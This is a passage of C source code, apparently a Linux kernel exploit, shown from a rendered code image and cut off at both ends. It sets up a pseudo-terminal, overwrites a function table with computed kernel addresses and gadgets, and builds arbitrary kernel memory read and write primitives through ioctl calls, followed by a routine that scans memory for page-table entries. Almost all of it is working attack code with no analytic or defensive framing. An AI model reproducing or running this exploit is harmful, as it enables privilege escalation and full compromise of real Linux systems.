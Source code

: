 ```c
	}
	if (unlockpt(ptmx_fd) < 0) {
		perror("unlockpt");
		exit(-1);
	}

	pts_name = (const char *)ptsname(ptmx_fd);
	return Open(pts_name, O_RDWR|O_NOCTTY);
}

unsigned int sys_ioctl(int fd, int cmd, unsigned long aux) {
	asm volatile("mov $16, %rax");
	asm volatile("syscall");
}

void write32(unsigned int what, unsigned long where) {
	ftable[0] = kernel_base + 0xffffffff81419300 - 0xffffffff80e00000;
	ftable[3] = kernel_base + 0xffffffff81418e60 - 0xffffffff80e00000;
	ftable[12] = w_gadget;
	lseek(fd, 0, SEEK_SET);
	Write(fd, ftable, 0x400);
	ioctl(slave_fd, (what), (where)); 
}

unsigned int read32(unsigned long where) {
	ftable[0] = kernel_base + 0xffffffff81419300 - 0xffffffff80e00000;
	ftable[3] = kernel_base + 0xffffffff81418e60 - 0xffffffff80e00000;
	ftable[12] = r_gadget;
	lseek(fd, 0, SEEK_SET);
	Write(fd, ftable, 0x400);
	return sys_ioctl(slave_fd, 0x1, where - 0x28); 
}

void write64(unsigned long what, unsigned long where) {
	unsigned long part;
	part = what & 0xFFFFFFFF;
	write32((unsigned int )part, where);
	part = what >> 32;
	write32((unsigned int )part, where + 4);
}

unsigned long read64(unsigned long where) {
	unsigned long p1, p2;
	p1 = read32(where);
	p2 = read32(where + 4);
	return p1 | (p2 << 32);
}

int check_page(unsigned long addr) {

	unsigned long page[0x101];
	int i;

	for (i = 0; i < 0x101; i++) {
		page[i] = read64(addr + i*8);
	}
	for (i = 0; i < 0x100; i++) {
		if (((page[i] & 0xff) != 0x67) || (!(page[i] >> 63))) {
			return 0;
		}
	}

	return page[0x100] == 0;
```